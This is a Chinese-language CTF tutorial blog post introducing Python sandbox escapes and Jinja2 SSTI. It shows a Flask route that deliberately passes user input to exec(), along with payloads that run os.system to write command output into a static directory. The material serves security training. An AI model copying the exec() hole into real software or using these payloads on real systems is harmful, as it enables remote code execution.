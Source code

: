 ```yaml
---
title: python沙箱与ssti入门
date: 2025-03-11 19:49:28
tags: 
  - ctf
  - python
categories:
  - 技术
  - ctf
  - web
toc: true
comments: true
---
```


# python沙箱与ssti(jinja2)入门------精简版

完整版云文档: https://doc.weixin.qq.com/doc/w3_AV4A0QaYAIoYb700En5SsqbaVhU4l?scode=APUACwdKABEAMrANAQAV4A0QaYAIo&version=4.1.32.6005&platform=win

题目练习场：https://ctf.xidian.edu.cn/training/

## python沙箱

沙箱环境是通过控制和限制代码的执行，保护系统免受恶意代码的危害。在 Flask 应用中，可能会通过如 `exec()`、`eval()` 或者其他动态执行代码的方式创建沙箱。这样的操作可能使得恶意用户能够通过注入代码进行远程代码执行 (RCE)。

### 题目：python沙箱1

```python
from flask import *

app = Flask(__name__)
@app.route('/rce', methods=['GET', 'POST'])
def rce():
    if request.method == 'POST':
        code = request.form['code']
        exec(code) #换成eval()呢？
    return render_template('rce.html')

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)

#思考：要是没有static目录，怎么办？
```

沙箱里有globals()的全局变量与函数

#### 1.写静态目录 

```python
import os;os.system('ls >static/1') 
__import__('os').system('')#eval时适用
```
